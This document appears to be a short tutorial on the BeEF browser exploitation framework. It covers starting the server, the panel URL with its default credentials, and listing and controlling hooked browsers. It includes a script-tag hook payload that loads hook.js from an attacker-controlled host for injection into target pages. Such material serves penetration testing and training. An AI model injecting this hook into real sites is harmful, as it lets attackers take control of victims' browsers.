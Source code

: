 BeEF (Browser Exploitation Framework) is a penetration testing tool that focuses on exploiting vulnerabilities in web browsers. It allows attackers to control and manipulate browsers remotely by using "hooks" to perform various malicious actions. Below is a detailed list of the arguments, methods, and examples for using BeEF.

---

### **BeEF Arguments, Methods, and Examples**

#### **1. Starting BeEF**
- **Description:** Start the BeEF server.
- **Command:**
  ```bash
  ./beef
  ```
- **Explanation:**
  - This command starts the BeEF framework, launching the BeEF console and web interface.

#### **2. Access the BeEF Web Interface**
- **Description:** Access the BeEF control panel through a web browser.
- **URL:**
  ```bash
  http://localhost:3000/ui/panel
  ```
- **Explanation:**
  - The BeEF control panel is accessible via a web browser at `http://localhost:3000/ui/panel`. The default credentials are usually `beef` for both username and password.

#### **3. Hook a Browser**
- **Description:** Inject a hook script into a target browser.
- **Hook URL:**
  ```html
  <script src="http://<BeEF_IP>:<BeEF_Port>/hook.js"></script>
  ```
- **Explanation:**
  - Injecting the hook script into a target's web page or social engineering the user to visit a malicious page will hook the browser, allowing BeEF to control it.

#### **4. List Hooked Browsers**
- **Description:** Display all currently hooked browsers.
- **Method:**
  - In the BeEF control panel, hooked browsers will automatically appear under the "Hooked Browsers" tab.
- **Explanation:**
  - The control panel provides a real-time list of all hooked browsers, categorized by the operating system and browser type.

#### **5. Interact with a Hooked Browser**
- **Description:** Select a hooked browser to interact with.
- **Method:**
  - Click on the browser session in the "Hooked Browsers" tab.
- **Explanation:**
  - Interacting with a hooked browser allows you to execute various modules and commands against the target.
